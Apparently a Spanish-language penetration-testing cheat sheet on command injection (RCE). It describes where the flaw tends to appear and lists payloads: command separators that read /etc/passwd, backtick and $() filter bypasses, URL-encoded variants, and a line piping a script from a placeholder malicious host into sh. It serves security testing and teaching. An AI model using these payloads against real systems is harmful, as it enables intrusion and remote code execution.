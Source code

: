 # Command Injection (RCE)

## Descripción

La vulnerabilidad de **Command Injection** ocurre cuando una aplicación permite la ejecución de comandos del sistema sin una validación adecuada. Esto permite a un atacante ejecutar comandos arbitrarios en el servidor, lo que puede llevar a la exposición de datos, el control total del sistema y la persistencia en el servidor.

Este falla es especialmente crítica cuando la aplicación ejecuta comandos del sistema basados en la entrada del usuario sin saneamiento.

---

## Dónde buscar Command Injection

### Endpoints comunes
- **Formularios de búsqueda** (`/search?q=QUERY`).
- **Paneles de administración** (`/admin/run?cmd=`).
- **Carga de archivos** (validar nombres de archivo y comandos incrustados).
- **APIs con ejecución de comandos** (`/api/exec?cmd=`).
- **Diagnósticos de red** (`/ping?host=` o `/traceroute?target=`).
- **Conversión de archivos** (`/convert?format=`).

### Cabeceras HTTP
- **User-Agent**: Puede ser inyectado en registros del sistema.
- **Referer**: Puede ser utilizado para manipular registros de logs y comandos subsiguientes.
- **X-Forwarded-For**: Puede ser inyectado en validaciones de direcciones IP.

### Datos de usuario
- **Inputs de formularios** (como nombres de usuario, consultas de búsqueda, etc.).
- **Archivos JSON o XML** que contengan comandos ejecutables.

---

## Payloads comunes

### Básicos
```bash
; id
& whoami &
&& cat /etc/passwd
```

### Encadenados con operadores
```bash
; ls -la
| uname -a
&& curl http://malicious.com/shell.sh | sh
```

### Con bypass de filtrado
```bash
`id`
$(`whoami`)
$(cat /etc/passwd)
```

### Variantes codificadas
```bash
%3B%20id
%26%26%20whoami
%60cat%20/etc/passwd%60
```
